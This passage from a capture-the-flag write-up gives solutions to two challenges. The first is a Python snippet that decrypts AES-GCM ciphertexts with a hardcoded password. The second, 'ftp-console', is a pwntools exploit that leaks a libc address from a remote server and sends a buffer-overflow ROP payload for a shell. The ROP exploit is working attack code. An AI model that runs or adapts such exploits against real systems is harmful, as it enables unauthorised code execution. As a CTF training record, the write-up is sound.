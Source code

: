4. **Decryption**:
   - Developed a Python function to decrypt the ciphertexts using the derived keys.

```python
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2
from base64 import b64decode

data = b64decode("46xPFEfuu5Lk1WFBqjeFbhWpbI7PmR/BzllqefGm/ocmD1WHAEZhrM3quZ3eb8tyqYu1zrD5xkO55QtYzZvvI2BkpVfKGQGbLiQ2TQKUxK6dSPIvQKQqtd39pxLOBU8Gcat5drU=")  # longest ciphertext
passw = "SHALLOWgrounds13"  # corresponding password
key = PBKDF2(passw, "0123456789abcdef", dkLen=32, count=100000)
nonce, tag, ct = data[:16], data[16:32], data[32:]
cipher = AES.new(key, AES.MODE_GCM, nonce)
print(cipher.decrypt_and_verify(ct, tag))
```

---

### ftp-console
**Proof of flag**
`CTF{093f6a8964db7d3c07e9eed18179cc35a22ae1d96dfa18a295beb7bcfa05fd7f}`

**Summary of the vulnerabilities identified**
The challenge involved exploiting a binary to leak memory addresses, allowing the calculation of the libc base for crafting a ROP payload. The libc version was identified using a leak from the remote instance.

**Proof of solving**
1. **Memory Leak**:
   - Connected to the binary and extracted a leak to calculate the libc base.

2. **ROP Payload Construction**:
   - Developed a ROP payload based on the leaked address and offset for the `system` function.

```python
from pwn import *

r = remote("34.107.40.88", 31124)
elf = context.binary = ELF("./ftp")
libc = ELF("./libc6_2.35-0ubuntu3.7_i386.so")
r.sendlineafter(b"USER ", b"a")
leak = r.recv().split(b" ")[-2].split(b"\n")[0]
leak = int(leak.decode()[2:], 16)
libc.address = leak - libc.sym["system"]
payload = b"a" * 80
payload += p32(libc.sym["system"])
payload += p32(0)
payload += p32(libc.address + 0x1bd0d5)
r.sendline(payload)
r.interactive()
```